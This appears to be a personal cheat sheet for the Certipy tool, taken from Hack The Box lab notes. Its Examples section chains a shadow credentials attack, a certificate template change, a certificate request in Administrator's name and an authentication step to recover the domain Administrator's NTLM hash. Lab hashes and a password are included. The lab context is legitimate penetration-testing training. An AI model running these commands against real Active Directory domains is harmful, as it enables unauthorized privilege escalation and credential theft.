 # certipy

## Overview

## Usage

### Auth

Return a hash for the account of the private key

Example: certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.129.251.172

### Find

The find command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations. The find operation searches for vulnerabilities such as missing or misconfigured certificates, insecure settings, or issues with Kerberos encryption types.

    -scheme <scheme>: This specifies which scheme should be used to communicate with the target Domain Controller.
    -k: The -k flag indicates that Kerberos authentication should be used for the request. Certipy will attempt to authenticate with the Kerberos tickets that are either provided or found in the Kerberos ticket cache
    -debug: The -debug flag enables debugging output.
    -target <target_name>.<domain_name>: DNS name of the target
    -dc <ip>: Domain Controller ip.
    -vulnerable: This flag tells Certipy to look for vulnerabilities related to Kerberos and Active Directory certificate configurations.
    -stdout: The -stdout flag indicates that Certipy should print its results to standard output, rather than saving them to a file.

```shell
KRB5CCNAME=$PWD/<victim_username_with_TGT>.ccache certipy-ad find -scheme <scheme> -k -debug -target <target_dns_name> -dc-ip <domain_controller_ip> -vulnerable -stdout
```

```shell
certipy-ad find -vulnerable -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.193.226 -stdout
```

```shell
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.129.251.172 -vulnerable -stdout
```

### Req

Example: certipy-ad req -u ca_svc -hashes :{ca_svc_hash} -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns {ip} -dns {ip}

Might need to be run multiple times to work

### Shadow Credentials

```shell
certipy-ad shadow auto -u <username>@<domain_name> -p '<password>' -dc-ip <domain_controller_ip> -ns <dns_server_ip> -target <domain_controller_name>.<domain_name> -account <username_victim>
```

Example : 
```shell 
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```
```shell
faketime "$(ntpdate -q fluffy.htb | awk '{print $1" "$2}')" certipy shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.129.193.226 -account 'winrm_svc'
```

### Template

This specifies the Kerberos template to use when requesting a Kerberos ticket. This template is used when performing actions like generating tickets or performing Kerberos-based attacks (like Pass-the-Ticket (PTT) or Golden Ticket).

Example: 
```shell 
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
```


## Examples

### Shadow Credentials

Do a shadow crendentials attack to get a TGT for the account ca_svc

```shell
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```

With the TGT of ca_svc specify a template and get a private key for the Administrator account:

```shell
    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
    certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.129.251.172 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.129.251.172 -dns 10.129.251.172
```

Finally authenticate with the private key and get the NTLM hash for the Administrator account:

```shell
    certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.129.251.172
```